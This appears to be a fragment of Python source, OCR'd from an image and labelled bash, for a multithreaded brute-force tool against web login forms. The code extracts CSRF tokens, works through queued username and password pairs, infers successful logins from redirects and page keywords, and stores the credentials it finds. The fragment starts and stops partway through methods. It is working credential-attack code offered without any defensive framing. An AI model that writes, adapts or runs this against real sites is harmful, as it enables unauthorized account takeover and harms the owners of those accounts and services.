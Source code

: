 ```bash
            if self.is_successful_login(resp):
                print(f"[SUCCESS] {username}:{password}")
                self.found_credentials.append((username, password))
                return True
            else:
                print(f"[FAILED] {username}:{password}")
                return False
                
        except Exception as e:
            print(f"[ERROR] {username}:{password} - {str(e)}")
            return False
    
    def extract_csrf_token(self, html):
        """Extract CSRF token from HTML (customize as needed)"""
        import re
        match = re.search(r'name="csrf_token" value="([^"]+)"', html)
        return match.group(1) if match else None
    
    def is_successful_login(self, response):
        """Determine if login was successful (customize as needed)"""
        # Common indicators of successful login
        success_indicators = [
            'dashboard', 'welcome', 'logout', 'profile'
        ]
        
        failure_indicators = [
            'invalid', 'incorrect', 'failed', 'error', 'denied'
        ]
        
        # Check status code
        if response.status_code == 302:  # Redirect often indicates success
            return True
        
        # Check response content
        content = response.text.lower()
        
        # Look for failure indicators first
        for indicator in failure_indicators:
            if indicator in content:
                return False
        
        # Look for success indicators
        for indicator in success_indicators:
            if indicator in content:
                return True
        
        return False
    
    def worker(self):
        """Worker thread for brute force attempts"""
        while not self.queue.empty():
            try:
                username, password = self.queue.get(timeout=1)
                self.attempt_login(username, password)
                time.sleep(0.1)  # Rate limiting
                self.queue.task_done()
            except:
                break
    
    def start_attack(self):
        """Start the brute force attack"""
        print(f"Starting brute force attack against {self.target_url}")
        print(f"Usernames: {len(self.usernames)}, Passwords: {len(self.passwords)}")
```